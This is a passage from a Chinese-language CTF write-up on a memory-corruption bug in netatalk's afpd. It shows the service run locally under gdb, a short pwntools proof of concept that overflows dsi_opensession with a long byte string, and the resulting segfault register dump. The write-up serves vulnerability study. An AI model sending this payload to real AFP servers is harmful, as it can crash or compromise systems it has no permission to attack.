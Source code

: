 ![image](https://xuanxuanblingbling.github.io/assets/pic/netatalk/wireshark.png)


### 调试

上面的交互的确看起来是触发了漏洞并覆盖了变量，不过想看到内存破坏还是得gdb调试。首先本地启动目标程，题目给的libc是2.27，所以使用ubuntu18.04的虚拟机：

```c
➜  LD_PRELOAD="./libatalk.so.18"  ./afpd -d -F ./afp.conf
```

然后检查一下端口情况，成功运行：

```c
➜  sudo netstat -pantu | grep 5566
tcp6    0    0 :::5566     :::*    LISTEN     123345/./afpd    
```

由于我们每次攻击的是fork出来的子进程，所以需要让gdb跟着子进程：

```c
➜  sudo gdb --pid 123345 -q

gef➤  set follow-fork-mode child
gef➤  c
```

然后打一发会引发内存破坏的PoC:

```python
from pwn import *
context(endian='big',log_level='debug')
io = remote("127.0.0.1",5566)

cmd  = b'\x01'+ p8(0x80)+ b'a'*0x80
dsi  = b'\x00\x04\x00\x01' 
dsi += p32(0)
dsi += p32(len(cmd)) 
dsi += p32(0)
dsi += cmd

io.send(dsi)
io.recv()
```

gdb窗口成功进入子进程并崩溃在dsi_opensession中：

```python
gef➤  c
Continuing.
[New process 123552]
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".

Thread 2.1 "afpd" received signal SIGSEGV, Segmentation fault.
[Switching to Thread 0x7f863b8e7740 (LWP 123552)]
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x61616161        
$rbx   : 0x0000563fcd14df00  →  0x0000000000000000
$rcx   : 0x6161616161616161 ("aaaaaaaa"?)
$rdx   : 0x0               
$rsp   : 0x00007ffce77c8840  →  0x0000000000000000
$rbp   : 0x0000563fcd14df00  →  0x0000000000000000
$rsi   : 0x00007f863b7e6092  →  0x0000000000000000
$rdi   : 0x0000563fcd14e658  →  0x0000000000000000
$rip   : 0x00007f863b486fbb  →  <dsi_opensession+139> movzx eax, BYTE PTR [rcx+r9*1]
$r8    : 0x0000563fcd14e5d8  →  "aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa[...]"
$r9    : 0x1               
```